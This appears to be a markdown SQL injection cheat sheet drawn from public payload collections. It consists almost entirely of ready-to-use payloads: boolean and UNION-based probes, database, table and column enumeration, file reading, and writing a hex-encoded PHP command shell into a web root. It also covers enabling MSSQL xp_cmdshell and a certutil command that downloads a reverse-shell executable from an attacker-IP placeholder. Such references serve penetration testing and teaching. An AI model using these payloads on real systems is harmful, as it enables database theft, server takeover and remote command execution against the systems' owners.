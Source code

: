 Pentestermonkey SQL injection cheat sheet (https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

## Error
	'
	"
	1 or @@version=1); -- -

## Logic
**Server expects string**

	1' or 'a'='a
	1' or 'a'='b
	') or 1=1; -- -

**Server expects integer**

	1 or 'a'='a'
	1 or 'a'='b'

## Union Select
	1' UNION SELECT null; -- -
	1' UNION SELECT null,null; -- -
	...
	Until the number of fields is found. Then change null for string or integer to find it's type

## Injections

### Info
	1' UNION SELECT null,@@version-- -
	1' UNION SELECT null,version()-- -
	1' UNION SELECT null,@@database-- -
	1' UNION SELECT null,database()-- -
	1' union select 1,group_concat(schema_name)from information_schema.schemata-- -

### Tables
	1' union select 1,group_concat(table_name) from information_schema.tables where table_schema = database()-- -
	1' union select 1, table_name FROM information_schema.tables-- -

### Columns
	1' union select 1,group_concat(column_name) from information_schema.tables where table_schema = database()-- -
	id=1' union select 1, column_name FROM information_schema.tables-- -

### Write files
	1' union select 1,'Hello from SQLI' INTO OUTFILE '/var/www/html/shell.php' from [database].queue-- -

###### Write CMD shell
	 1' union select 1,unhex('3C3F7068702073797374656D28245F4745545B22636D64225D29203F3E') INTO OUTFILE '/var/www/html/shell1.php' from [database].queue-- -

### Read files
	1' UNION SELECT 1,LOAD_FILE("/var/www/html/index.php")-- -

## Microsft SQL Server
**Activate xp_cmdshell**

	'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --

Execute command line commands

	'; EXEC xp_cmdshell '[Command]'; --
	'; EXEC xp_cmdshell 'certutil -urlcache -f http://[Attacker IP]:8000/reverse.exe C:\Windows\Temp\reverse.exe'; --


